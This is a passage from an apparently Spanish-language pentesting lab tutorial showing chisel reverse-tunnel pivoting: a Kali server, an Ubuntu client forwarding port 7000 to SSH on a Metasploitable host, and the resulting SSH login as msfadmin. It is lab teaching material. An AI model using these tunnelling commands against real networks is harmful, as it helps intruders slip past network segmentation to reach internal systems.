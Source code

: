 Perfecto... tenemos conexiòn.. pero que pasa si en vez de utilizar el puerto 80 con el chisel en la Ubuntu utilizamos otro puerto?...

asignamos otro puerto en nuestro servidor escucha en la Kali

```text
./chisel server -p 8001 --reverse
```

![](.gitbook/assets/image%20%285%29.png)

Y en nuestro Ubuntu corremos otra sentencia del chisel pero cambiando los puertos. 8001 para nuestra kali reciba la nueva conexiòn, puerto 7000 para poder verlo en nuestra localhost de kali y el puerto 22 para el metasploitable que nos permite conectarnos por ssh. 

```text
./chisel client 192.168.1.144:8001 R:7000:172.16.250.133:22
```

![](.gitbook/assets/image%20%2833%29.png)

Ahora revisamos nuestra kali....

Tenemos que se realizo una conexiòn en chisel por el puerto 7000

![](.gitbook/assets/image%20%2824%29.png)

y probamos en este caso conectarnos desde nuestro localhost al puerto 7000 e ingresamos la pass de nuestro Metasploitable

```text
ssh msfadmin@127.0.0.1 -p 7000
```
